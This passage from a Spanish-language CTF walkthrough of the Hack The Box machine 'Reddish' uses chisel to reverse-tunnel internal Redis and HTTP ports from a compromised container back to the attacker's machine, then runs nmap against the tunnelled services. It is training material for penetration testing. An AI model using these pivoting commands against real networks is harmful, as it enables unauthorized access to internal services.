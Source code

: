 ### El primer paso para realizar este port forwarding es crearnos un servicio en nuestra máquina con el binario

```abap
┌─[root@parrot]─[/mnt/angussMoody/Scripts]
└──╼ #./chisel server --reverse -p 8000
2021/09/20 18:05:05 server: Reverse tunnelling enabled
2021/09/20 18:05:05 server: Fingerprint z1ijnwoeiVABd6Lg4srMvt5bVbVZ/tpkK8tkw8ZIGPA=
2021/09/20 18:05:05 server: Listening on http://0.0.0.0:8000
```

### Y el segundo paso es crearnos el cliente el la máquina victima

```abap
root@nodered:/tmp# ./chisel client 10.10.14.118:8000 R:127.0.0.1:6379:172.19.0.2:6379 R:127.0.0.1:80:172.19.0.3:80
2021/09/20 23:10:11 client: Connecting to ws://10.10.14.118:8000
2021/09/20 23:10:12 client: Connected (Latency 157.499768ms)
```

### Ahora vamos a revisar en nuestro [localhost](http://localhost) para ver si nos trae el servicio de la máquina victima y vemos que nos carga una web

![9.png](/assets/images/2022-05-10-Reddish/9.png)

### Vamos a realizar un escaneo con nmap para tener más información de los puertos a nuestro [localhost](http://localhost) porque ya los tenemos con el tunel, este nos devuelve el servicio http y el servicio redis

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #nmap -sCV -p80,6379 -o nmapremoto 127.0.0.1 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-20 18:15 -05
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0014s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Reddish
6379/tcp open  redis   Redis key-value store 4.0.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.66 seconds
```